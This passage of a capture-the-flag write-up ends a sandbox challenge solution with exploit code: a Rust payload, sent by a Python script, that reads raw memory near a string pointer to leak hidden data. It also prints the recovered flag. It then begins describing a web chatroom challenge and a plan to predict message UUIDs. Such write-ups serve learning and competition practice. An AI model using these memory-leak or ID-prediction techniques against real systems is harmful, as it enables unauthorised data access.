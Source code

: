```=python
               let mut out = Vec::with_capacity(len);
               for i in 0..len {
                   out.push(r(start+i));
               }
               out
           };

           let mut xx: usize = "".as_ptr() as *const _ as _;
           log!("{}", xx);

           static AMOUNT: usize = 0x1000;
           let mut output = Vec::new();
           for i in 0..AMOUNT {
               let a = r32(&mut r, xx - 0x500  + i);
               output.push(a as u8);
        

           }
           log!("{}", String::from_utf8_lossy(&output[..]));
       }
       
    }
'''
r.send(payload+"EOF\n")
r.interactive()

# the flag is CTF{s4ndb0x1n9_s0urc3_1s_h4rd_ev3n_1n_rus7}

```

## Web

### letschat

This challenge is a simple chatroom website.
We can do some basic operations, such as creating a chat room, sending a message to the chat room, inviting others to the chat room, etc.


Every message sent and every user will be assigned a **UUID**.

Since the challenge did not tell us where the flag is, we naturally went to the `admin`/`flag` user or `admin`/`flag` chat room to try.
But after a series of common vulnerabilities testing, there was no result, so I started to turn the target to UUID.


We started to guess that the flag might be the earliest message, so the goal was to find a way to predict the UUID (estimate the UUID of the earliest message).


But there are still some uncertain issues here, that is, we are not sure that after we get the message UUID, we can see the content or not. (Because the organizer replaced all the messages to `<Player> *******` shortly after the start of the game.)
